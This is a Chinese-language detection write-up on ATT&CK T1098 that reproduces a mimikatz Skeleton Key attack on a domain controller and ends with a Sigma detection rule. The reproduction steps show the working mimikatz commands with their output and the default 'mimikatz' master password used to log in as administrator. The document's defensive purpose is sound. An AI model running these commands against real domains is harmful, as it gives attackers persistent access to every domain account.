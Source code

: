 # T1098-win-万能密码

## 来自ATT&CK的描述

攻击者可以操纵帐户以维护对受害者系统的访问。帐户操作可以包括保留对受感染帐户的攻击者访问权限的任何操作，例如修改凭据或权限组。这些操作还可能包括旨在破坏安全策略的帐户活动，例如执行迭代密码更新以绕过密码持续时间策略并保留受到破坏的凭据的寿命。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

使用万能密码（skeleton key），可以对域内权限进行持久化操作。

## 检测日志

windows 安全日志

## 测试复现

### 步骤1（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>dir \\dc.xiaomi.org\c$  
拒绝访问。

C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "admin.098" /user:xiaomi\administra
tor
命令成功完成。

C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,728,838,144 可用字节

C:\Users\xiaomi>net use
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
OK                     \\dc.xiaomi.org\ipc$      Microsoft Windows Network
命令成功完成。


C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ /del /y
\\dc.xiaomi.org\ipc$ 已经删除。


C:\Users\xiaomi>net use
会记录新的网络连接。

列表是空的。
```

### 步骤2（DC上执行，管理员权限）

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::skeleton" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz(commandline) # exit
Bye!
```

**系统提示Skeleton Key已经注入成功。此时，会在域内的所有账户中添加一个Skeleton key，其密码默认为“mimikatz”。接下来可以以域内任何用户的身份，配合该Skeleton Key，进行域内身份授权验证了。**

### 步骤3（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "mimikatz" /user:xiaomi\administrat
or
命令成功完成。


C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,758,198,272 可用字节

```

## 测试留痕

windows安全事件ID，多事件关联分析

## 检测规则/思路

```yml
title: Windows 万能密码
description: Windows server 2008 R2\win 7
references: https://0xsp.com/ad-attack-or-defense/ad-ttps-list
tags: T1098
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4673  #调用权限的服务
    selection2:
        EventID: 4611  #受信任的登录进程已在本地安全机构注册
    selection3:
        EventID: 4688  #新进程创建
    selection4:
        EventID: 4689  #退出进程
    timeframe: last 5s
    condition: all of them
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1098：<https://attack.mitre.org/techniques/T1098/>
